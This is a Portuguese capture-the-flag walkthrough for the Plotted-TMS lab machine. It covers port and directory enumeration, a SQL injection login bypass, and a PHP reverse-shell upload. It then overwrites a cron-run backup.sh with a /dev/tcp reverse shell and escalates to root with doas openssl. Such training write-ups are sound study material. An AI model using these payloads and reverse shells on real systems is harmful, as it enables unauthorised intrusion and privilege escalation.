 ![image](https://github.com/user-attachments/assets/d68258d0-98a6-407b-b5fd-b8b4df7fbeb7)# _**Plotted-TMS**_
![](plotted.jpg)

## _**Enumeração**_
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap -p 0-9999 -A -T5 [ip_address]
> ```
![](scan_nmap.jpg)

Parece que temos 2 websites, um na porta 80 e outro na porta 445  
Vamos investigar  
Primeiro, scan com <mark>Gobuster</mark>
> ```bash
> gobuster dir --url [ip_address] -w ../seclists/Discovery/Web-Content/Web-Servers/Apache.txt
> gobuster dir --url [ip_address]:445 -w ../seclists/Discovery/Web-Content/Web-Servers/Apache.txt
> ```
![](scan_go.jpg)  

![](scan_go_445.jpg)  

Parece não haver nada  
Vamos buscar informações de outra maneira  

## _**Ganhando acesso**_
Seguindo a dica dada, '_Enumeration is key!_'  
Com outra lista para _brute_force_, vamos novamente realizar um scan com **gobuster**
> ```bash
> gobuster dir --url [ip_address] -w ../seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
> gobuster dir --url [ip_address]:445 -w ../seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
> ```
![](scan_medium.jpg)

Aqui temos 3 diretórios que podem ser úteis  
Investigando cada um deles, vemos que são apenas frases para continuar nossa enumeração :)  
Já o resultado na porta **445** parece ser promissor, pois encontramos uma página e dentro, uma página de login  

![](login.jpg)

Vamos tentar um _SQL injection_ com: ```' || '1'='1';-- -```  
E temos acesso administrador  

![](admin_access.jpg)

Ao investigarmos o site, que parece ser para multas e trânsito, é perceptível que podemos alterar a imagem de fundo em _../management_  
Vamos criar um arquivo _shell.php_ para tentarmos obtermos o inverso  
> ```bash
> <?php
> // Configurações do reverso
> $ip = '[ip_address]';  // <- Substitua pelo seu IP
> $port = [port];           // <- Substitua pela porta que está ouvindo
> 
> // Tenta abrir conexão de volta
> $sock = fsockopen($ip, $port);
> $proc = proc_open('/bin/sh -i', [
>     0 => $sock,
>     1 => $sock,
>     2 => $sock
> ], $pipes);
> ?>
> ```
Clicando para fazer _upload_, temos com sucesso!  
Basta acessar ```[ip_address]:445/management``` para obter seu _shell reverso_  

![](reverse_shell.jpg)

## _**Escalando privilégios**_
Para podermos escalar privilégios, vamos buscar LinPEAS com ```curl```  
Em seguida, vamos executar  
Após algum tempo, temos um retorno interessante  

![](linpeas.jpg)

Um script, _/var/www/scripts/backup.sh_, que é executado a cada minuto pelo usuário **plot_admin**  
Verificando suas permissões, vemos que é possível alterá-lo através do usuário atual  
Vamos fazer isso para abrir uma shell no usuário **plot_admin**  

> ```bash
> rm /var/www/scripts/backup.sh
> echo "/bin/sh -i >& /dev/tcp/[ip_address]/[port] 0>&1" > /var/www/scripts/backup.sh
> ```
Aguarde um tempo com ```netcat``` ligado e temos shell como **plot_admin**  

![](plot_addmin.jpg)

Vamos escalar privilégios novamente  
Ao procurar por binários interessantes, encontrei "_doas_"  
A ferramenta doas é a implementação do OpenBSD da conhecida ferramenta sudo  
Procurando em GFTOBins, temos o seguinte  

![](gftobins.jpg)

Vamos executar:
> ```bash
> doas openssl enc -in [root_file_flag]
> ```

Por fim, basta ir atrás da flag _user.txt_
